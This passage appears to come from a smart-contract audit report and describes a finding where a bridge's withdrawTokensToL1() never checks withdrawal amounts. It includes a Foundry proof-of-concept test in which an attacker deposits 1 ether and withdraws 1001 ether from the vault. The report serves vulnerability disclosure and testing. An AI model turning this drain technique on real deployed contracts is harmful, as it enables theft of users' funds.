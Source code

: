 Or restrict the calldata to the specific function selectors.



## H-06.Attacker can withdraw more funds than deposited

### Summary

Since the ` withdrawTokensToL1() ` function does not check the ` amount `, an attacker can deposit a small amount of funds into L2 through ` depositTokensToL2() ` , and then withdraw all funds from L2.



### Vulnerability Details

The vulnerability is located in ` withdrawTokensToL1() ` function of the ` L1BossBridge.sol ` file.

We can take a look at the contract's description under ` On withdrawals `:

> Our service will validate the payloads submitted by users, **checking that the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge**.

The operator only checks whether the user has a valid deposit, but does not check the amounts of the deposit and withdraw.

So the attacker can deposit a small amount funds into L2 through ` depositTokensToL2() ` function, and then withdraw all funds from L2 through ` withdrawTokensToL1() ` function.



### Proof of Concept

#### Test Case

```solidity
function testWithdrawAllFunds() public {
    // user deposit the funds
    vm.startPrank(user);
    token.approve(address(tokenBridge), 1000 ether);
    tokenBridge.depositTokensToL2(user, userInL2, 1000 ether);
    vm.stopPrank();

    address attacker = makeAddr("attacker");
    address attackerInL2 = makeAddr("attackerInL2");
    deal(address(token), attacker, 1 ether);
    vm.startPrank(attacker);
    token.approve(address(tokenBridge), 1 ether);
    tokenBridge.depositTokensToL2(attacker, attackerInL2, 1 ether);
    bytes memory attacker_message = abi.encode(
        address(token),
        0,
        abi.encodeCall(IERC20.transferFrom, (address(vault), attacker, 1001 ether))
    );
    vm.stopPrank();

    (uint8 v, bytes32 r, bytes32 s) = _signMessage(attacker_message, operator.key);
    vm.prank(attacker);
    tokenBridge.withdrawTokensToL1(attacker, 1001 ether, v, r, s);

    assertEq(token.balanceOf(attacker), 1001 ether);
}
```
